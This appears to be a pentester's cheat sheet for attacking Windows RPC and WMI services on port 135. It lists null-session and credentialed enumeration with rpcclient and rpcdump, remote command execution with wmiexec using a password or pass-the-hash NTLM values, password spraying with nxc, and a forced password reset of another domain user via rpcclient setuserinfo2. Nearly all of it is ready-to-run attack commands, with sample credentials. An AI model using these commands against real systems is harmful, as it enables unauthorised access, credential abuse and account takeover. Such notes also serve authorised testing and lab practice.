 Port 135, high-numbered ports for WMI connections

no creds:
```
nmap -p 135 --script=rpcinfo <target-ip>
```

```
rpcclient -U "" 10.129.177.157
```

```
python rpcdump.py <target-ip>
```
creds or if connected:
```
rpcclient -U "joe%Flowers1" -c enumdomusers 172.16.247.10
```

shell:
```
wmiexec.py domain/user:password@192.168.1.10
```
```
python wmiexec.py domain/user@192.168.1.10 -hashes :aad3b435b51404eeaad3b435b51404ee:cc36cf7a8514893efccd332446158b1a
```

spray:
```
nxc wmi 192.168.1.1 -u user -p pass
```

if owned user in bloodhound has ForceChangePassword permission over another user:
```
rpcclient -U 'rsmith' //10.10.146.118
```
- put in password, then:
```
setuserinfo2 ewalters 23 "d4nk!!!"
```

